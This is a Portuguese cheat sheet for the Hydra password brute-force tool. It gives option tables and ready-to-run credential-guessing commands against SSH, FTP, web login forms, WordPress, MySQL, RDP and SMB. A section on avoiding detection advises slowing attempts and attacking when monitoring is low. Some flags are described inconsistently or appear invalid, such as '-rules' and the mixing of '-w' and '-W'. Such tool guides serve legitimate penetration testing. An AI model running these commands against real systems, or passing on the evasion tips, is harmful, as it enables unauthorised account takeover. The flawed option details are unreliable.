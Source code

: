 ## O que é o Hydra?
O **Hydra** é uma ferramenta de brute-force de rede que suporta múltiplos protocolos e serviços. É amplamente utilizado em testes de penetração para verificar a força de senhas.

## Sintaxe Básica

```bash
hydra -l <usuário> -p <senha> <protocolo://servidor:porta> <opções>
hydra -L <lista_usuários> -P <lista_senhas> <alvo> <opções>
```

## Opções Principais

### Opções de Autenticação
| Opção | Descrição |
|-------|-----------|
| `-l` | Usuário único |
| `-L` | Arquivo com lista de usuários |
| `-p` | Senha única |
| `-P` | Arquivo com lista de senhas |
| `-e` | Opções especiais: `n` (null), `s` (login como senha), `r` (senha como login) |
| `-u` | Tentar usuário primeiro (padrão: senha primeiro) |
| `-f` | Parar após encontrar primeira credencial válida |

### Opções de Conexão
| Opção | Descrição |
|-------|-----------|
| `-s` | Porta personalizada |
| `-S` | Usar conexão SSL |
| `-t` | Número de tarefas paralelas (padrão: 16) |
| `-w` | Timeout em segundos (padrão: 32) |
| `-4` | Usar apenas IPv4 |
| `-6` | Usar apenas IPv6 |

### Opções de Saída
| Opção | Descrição |
|-------|-----------|
| `-o` | Arquivo de saída |
| `-b` | Formato de saída: `text`, `json`, `jsonv1` |
| `-v` | Modo verboso |
| `-V` | Modo verboso detalhado |

## Exemplos por Protocolo

### SSH
```bash
# Ataque básico
hydra -l admin -P passwords.txt ssh://192.168.1.1

# Com lista de usuários
hydra -L users.txt -P passwords.txt ssh://192.168.1.1

# Porta personalizada
hydra -L users.txt -P passwords.txt ssh://192.168.1.1 -s 2222

# Limitar tarefas paralelas
hydra -L users.txt -P passwords.txt ssh://192.168.1.1 -t 4
```

### FTP
```bash
# Ataque FTP básico
hydra -L users.txt -P passwords.txt ftp://192.168.1.1

# FTP com SSL
hydra -L users.txt -P passwords.txt ftps://192.168.1.1

# Modo verboso
hydra -v -L users.txt -P passwords.txt ftp://192.168.1.1
```

### HTTP/HTTPS
```bash
# Formulário POST básico
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"

# Com cabeçalhos personalizados
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=error" -H "User-Agent: Mozilla/5.0"

# HTTPS
hydra -l admin -P passwords.txt 192.168.1.1 https-post-form "/login:username=^USER^&password=^PASS^:Invalid"
```

### WordPress
```bash
# Ataque específico para WordPress
hydra -L users.txt -P passwords.txt 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:ERROR"
```

### MySQL
```bash
# Ataque ao MySQL
hydra -L users.txt -P passwords.txt mysql://192.168.1.1

# Porta personalizada
hydra -L users.txt -P passwords.txt mysql://192.168.1.1:3307
```

### RDP (Remote Desktop)
```bash
# Ataque RDP
hydra -L users.txt -P passwords.txt rdp://192.168.1.1

# Com domínio
hydra -L users.txt -P passwords.txt rdp://192.168.1.1 -m "DOMAIN=meudominio"
```

### SMB
```bash
# Ataque SMB
hydra -L users.txt -P passwords.txt smb://192.168.1.1

# Com grupo de trabalho
hydra -L users.txt -P passwords.txt smb://192.168.1.1 -m "WORKGROUP=WORKGROUP"
```

## Técnicas Avançadas

### Ataques com Regras
```bash
# Usando regras do John the Ripper para gerar senhas
hydra -l admin -P /usr/share/john/password.lst -rules ssh://192.168.1.1
```

### Ataque com Serviços Múltiplos
```bash
# Testar múltiplos serviços
hydra -L users.txt -P passwords.txt -M services.txt
```

Onde `services.txt` contém:
```
ssh://192.168.1.1
ftp://192.168.1.1
http://192.168.1.1
```

### Modo de Restauração
```bash
# Continuar sessão interrompida
hydra -R hydra.restore
```

### Ataque com Delay
```bash
# Adicionar delay entre tentativas
hydra -L users.txt -P passwords.txt ssh://192.168.1.1 -w 10 -t 1
```

## Boas Práticas

### 1. Performance
- Ajuste `-t` conforme a capacidade do servidor alvo
- Use `-w` para evitar timeouts em redes lentas
- Teste com poucas credenciais primeiro

### 2. Evitar Detecção
- Use delays entre tentativas (`-W`)
- Limite o número de threads (`-t`)
- Considere horários de menor monitoramento

### 3. Listas Eficientes
- Comece com listas de senhas comuns
- Use informações de OSINT para criar listas personalizadas
- Combine com regras de mutação

### 4. Monitoramento
- Use modo verboso para debug (`-v` ou `-V`)
- Salve resultados com `-o`
- Use formato JSON para processamento posterior

## Exemplo de Uso Completo

```bash
# Ataque completo com todas as opções
hydra -L users.txt -P passwords.txt \
  -e nsr \
  -t 4 \
  -w 10 \
  -f \
  -o results.txt \
  -b json \
  -v \
  ssh://192.168.1.1:22
```

Este comando:
- Usa listas de usuários e senhas
- Testa senhas nulas, iguais ao usuário e reversas
- Limita a 4 tarefas paralelas
- Timeout de 10 segundos
- Para na primeira credencial válida
- Salva em JSON
- Modo verboso
